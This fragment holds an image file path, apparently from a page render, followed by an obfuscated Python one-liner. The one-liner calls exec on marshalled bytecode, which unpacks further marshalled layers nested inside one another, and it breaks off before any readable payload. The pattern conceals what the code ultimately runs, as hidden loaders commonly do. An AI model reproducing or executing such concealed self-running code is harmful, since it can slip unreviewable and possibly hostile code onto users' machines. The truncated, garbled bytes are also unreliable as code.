 exec(marshal.loads(b'\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00\x00\x00\x00\x00\xf3@\x00\x00\x00\x97\x00d\x00d\x01l\x00Z\x00\x02\x00e\x01\x02\x00e\x00j\x02\x00\x00\x00\x00\x00\x00\x00\x00d\x02\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x01S\x00)\x03\xe9\x00\x00\x00\x00Ns%J\x01\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00\x00\x00\x00\x00\xf3@\x00\x00\x00\x97\x00d\x00d\x01l\x00Z\x00\x02\x00e\x01\x02\x00e\x00j\x02\x00\x00\x00\x00\x00\x00\x00\x00d\x02\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x01S\x00)\x03\xe9\x00\x00\x00\x00Ns$I\x01\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00\x00\x00\x00\x00\xf3@\x00\x00\x00\x97\x00d\x00d\x01l\x00Z\x00\x02\x00e\x01\x02\x00e\x00j\x02\x00\x00\x00\x00\x00\x00\x00\x00d\x02\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x01S\x00)\x03\xe9\x00\x00\x00\x00Ns#H\x01\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00\x00\x00\x00\x00\xf3@\x00\x00\x00\x97\x00d\x00d\x01l\x00Z\x00\x02\x00e\x01\x02\x00e\x00j\x02\x00\x00\x00\x00\x00\x00\x00\x00d\x02\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x01S\x00)\x03\xe9\x00\x00\x00\x00Ns"G\x01\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00\x00\x00\x00\x00\xf3@\x00\x00\x00\x97\x00d\x00d\x01l\x00Z\x00\x02\x00e\x01\x02\x00e\x00j\x02\x00\x00\x00\x00\x00\x00\x00\x00d\x02\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x01S\x00)\x03\xe9\x00\x00\x00\x00Ns!F\x01\x00\xe3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00\x00\x00\x00\x00\xf3@\x00\x00\x00\x97\x00d\x00d\x01l\x00Z\x00\x02\x00e\x01\x02\x00e\x00j\x02\x00\x00\x00\x00\x00\x00\x00\x00d\x02\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x01S\x00)\x03\xe9\x00\x00\x00\x00Ns
